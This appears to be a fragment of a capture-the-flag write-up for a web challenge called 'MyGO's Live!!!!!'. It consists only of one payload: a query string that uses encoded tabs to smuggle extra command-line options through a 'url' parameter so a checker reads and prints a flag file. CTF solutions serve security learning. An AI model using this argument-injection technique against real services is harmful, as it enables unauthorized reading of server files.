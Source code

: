 ## Web
### MyGO's Live!!!!!

```shell
checker?url=%09-iL%09/flag-d5b6d51594b888dd%09-o%09/dev/stdout
```